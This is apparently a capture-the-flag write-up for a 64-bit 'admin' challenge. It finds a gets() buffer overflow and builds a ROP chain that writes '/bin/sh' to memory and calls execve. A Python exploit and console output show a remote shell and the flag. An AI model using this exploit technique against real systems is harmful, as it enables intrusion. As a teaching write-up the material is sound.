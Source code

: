 # Admin - 64bit pwn
we are given a staticly linked 64bit executable with NX enabled but no PIE or stack canary.   
```console
root@kali:~/CTF/jctf/admin# ./admin 
Username: 
admin
Welcome admin
```
we immediately see a buffer overflow.     
```console
root@kali:~/CTF/jctf/admin# python -c "print 'A'*500"| ./admin 
Username: 
Bye AAAAAAAAAAAA...
Segmentation fault
```
after analysing the code we can see why that is.
(the function names don't appear because of the static linking but it's easy to guess their names).                

```asm
lea     rax, [rbp+input]
mov     rdi, rax
mov     eax, 0
call    gets ; a call to gets = BOF
lea     rax, [rbp+input]
lea     rsi, aAdmin     
mov     rdi, rax
call    strcmp
test    eax, eax
jnz     short loc_400B97
```
ok. a rop chain is needed to gain code execution.         
using ROPgadget we can find a syscall gadget.        
```
0x000000000040123c : syscall
```
but no "/bin/sh" in the binary.            
this requires some write gadget.                  
this is the one I chose.         
```
0x000000000048d102 : mov dword ptr [rax], edx ; ret
```
we pick somewhere in a rw section to place our string and craft a rop chain using some more gadgets:           
```
0x000000000044bce9 : pop rdx ; pop rsi ; ret
0x0000000000415544 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
```
(full code is in exploit.py)
```python
str_dest=0x006b6208  # someplace in a rw section

exploit=b'A'*72 # padding
exploit+=p64(SET_RDX_RSI)
exploit+=b'/bin\x00\x00\x00\x00' # set rdx to start of string
exploit+=p64(0x41414141)
exploit+=p64(SET_RAX)
exploit+=p64(str_dest) # rax to set addr
exploit+=p64(WRITE_EDX_RAX) # write mem
exploit+=p64(SET_RDX_RSI)
exploit+=b'/sh\x00\x00\x00\x00\x00' # last part of string...
exploit+=p64(0x41414141)
exploit+=p64(SET_RAX)
exploit+=p64(str_dest+4)
exploit+=p64(WRITE_EDX_RAX) # full string written


exploit+=p64(SET_RDX_RSI) # set up params...
exploit+=p64(0x0)
exploit+=p64(0x0)
exploit+=p64(SET_RDI)
exploit+=p64(str_dest)
exploit+=p64(SET_RAX)
exploit+=chr(0x3b)+"\x00"*7 # rax=0x3b
exploit+=p64(SYSCALL) # make the syscall

r.sendline(exploit)
r.interactive()
```
and...             
nice.
```console
root@kali:~/CTF/jctf/admin# python exploit.py 
[+] Opening connection to 35.186.153.116 on port 7002: Done
[*] Switching to interactive mode
$ ls
admin
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
$  
```
